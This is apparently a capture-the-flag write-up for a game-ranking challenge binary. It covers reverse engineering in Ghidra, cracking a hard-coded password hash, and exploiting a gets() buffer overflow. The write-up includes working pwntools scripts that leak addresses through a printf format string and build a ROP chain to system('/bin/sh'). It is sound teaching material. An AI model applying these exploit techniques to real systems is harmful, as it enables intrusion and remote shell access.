# 16bits Game Ranking

## Tools

- Python
    - [pwntools](https://docs.pwntools.com/en/stable/)
- Reverse Engineering
    - [Ghidra](https://ghidra-sre.org/)
    - [IDA](https://hex-rays.com/ida-pro)

## Getting Started

### Ghidra

Import the `chal1` and Ghidra should be able to analyze the program with some symbols. Note that the labelling is not always correct.

## 1

In `main`, there is a secret menu option `0xdead` (aka. `57005`) that calls `admin`.

```c
undefined8 main(void)
{
  // ...

  while (local_c != 4) {
    print_menu();
    __isoc99_scanf(&DAT_001034ff,&local_c);
    if (local_c == 1) {
      print_rank();
    }
    else if (local_c == 2) {
      see_comment();
    }
    else if (local_c == 3) {
      vote();
    }
    else if (local_c == 0xdead) { // < -- Here
      admin();
    }
    empty_stdin();
  }

  // ...
}
```

This hidden menu asks for a password after 10 seconds.



In `admin`, there are local variables being set with a hash.



If `local_78` is properly labelled to `byte[16]`, the hash can be read directly from the decompiled code.



```
b4
05
70
d6
7e
20
51
45
7f
f8
43
89
06
e6
21
46
```

Combining them together and using [crackstation](https://crackstation.net/), we can find the password associated to the hash.



Enter this password and the first flag is your's.



*Note: I did not keep a copy of this flag so this is a demo value.*

## Patch

For next 2 flags, you probably want to patch out the `sleep(10)`.

Just replace `0xa` to `0x0` at offset `0x1dd0`.



## 2

After the previous flag, we already stumble in the first bug.



In `admin`, the input is taken by `gets`.



This is a [well-known vulnerable function to buffer overflows](http://crasseux.com/books/ctutorial/gets.html).

We can check where we start overwriting the return address using `pwn.cyclic(256)` and `GDB`

```
$ gdb chal1

...

> run

...

> x/32c $rsp
```



We see the address would be at `aara`, which we can find the offset to be `66` through `pwn.cyclic_find(b"aara")`.

For next step, let's use [checksec](https://github.com/slimm609/checksec).

```
checksec --file=chal1

Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
Stripped:   No
```

Points to note from above are `STACK CANARY` being disabled (there is no protection against buffer overflows) and `PIE` being enabled (the program location is randomized in memory).

Given `PIE` is enabled, there should be a way to leak a program address. This took us a **LONG** time to find but there is a `printf` format supplied by the user in `vote`.



With the following input, we can leak some addresses on stack.



We can use an offset format to go select a value that we are actually interested about (`11` is a program address and `10` a stack address).



We have all the gadgets we need to jump to the `flag2` function.

```py
import pwn

elf = pwn.context.binary = pwn.ELF("chal1")

def main() -> None:
    sess = pwn.process([elf.path])

    sess.sendline(b"3")
    sess.sendline(b"1")

    sess.recvuntil(b"DOWN):")
    sess.sendline(b"%11$p~")

    address = int(sess.recvuntil(b"~").split(b" ")[-1][:-1].decode(), 16)
    elf.address = address - 0x20c7

    sess.sendline(b"n")

    sess.sendline(b"57005")
    sess.sendline(b"bubbles1")

    sess.recvuntil(b"!")

    payload = pwn.cyclic(66) + pwn.pack(elf.symbols["flag"])

    sess.sendline(payload)

    sess.interactive()

if __name__ == "__main__":
    main()
```



*Note: I did not keep a copy of this flag so this is a demo value.*

## 3

Given we proved we can redirect control flow by ovewriting the return, this is a perfect candidate for a `ROP`.

The program has two useful gadgets for us. We have a call to `system` from `testsystem` and a `POP RDI` in `popopops`. [From documentation](https://man7.org/linux/man-pages/man3/system.3.html), we see `system` only takes one arguments and for `x86_64` this the first argument is usually `RDI`.

We would want `RDI` to be `/bin/sh` (to have a full remote shell). ~~There is no easy access to `/bin/sh`, but we can add one ourselves by adding to end of our `ROP` payload. We'd also need a stack address, which luckily we can leak with `%10$p~` `printf` format.~~ (There is a `/bin/sh` in a message that can be used instead. This is much easier than finding an offset on stack like this, but this is the way I solved it).

We can edit the script from flag 2 to get the final full RCE payload.

```py
import pwn

elf = pwn.context.binary = pwn.ELF("chal1")

def main() -> None:
    sess = pwn.process([elf.path])

    # Leak Program Address
    sess.sendline(b"3")
    sess.sendline(b"1")

    sess.recvuntil(b"DOWN):")
    sess.sendline(b"%11$p~")

    address = int(sess.recvuntil(b"~").split(b" ")[-1][:-1].decode(), 16)
    elf.address = address - 0x20c7

    sess.sendline(b"n")

    # Leak Stack Address
    sess.sendline(b"3")
    sess.sendline(b"1")

    sess.recvuntil(b"DOWN):")
    sess.sendline(b"%10$p~")

    stack_address = int(sess.recvuntil(b"~").split(b" ")[-1][:-1].decode(), 16)

    sess.sendline(b"n")

    # Admin
    sess.sendline(b"57005")
    sess.sendline(b"bubbles1")

    sess.recvuntil(b"!")

    rop = [
        # Set RDI
        pwn.pack(elf.symbols["popopops"] + 4),
        ## Offset to system args ("/bin/sh") on stack
        pwn.pack(stack_address),
        # System
        pwn.pack(elf.symbols["testsystem"] + 14),
        # Arg for system
        b"/bin/sh"
    ]

    payload = pwn.cyclic(66) + b"".join(rop)

    sess.sendline(payload)

    sess.interactive()

if __name__ == "__main__":
    main()
```

We now have a `/bin/sh` on the remote server, so we can `cat` the flag.



*Note: I did not keep a copy of this flag so this is a demo value.*

## Fin

Note to self: `stack alignment` is important.
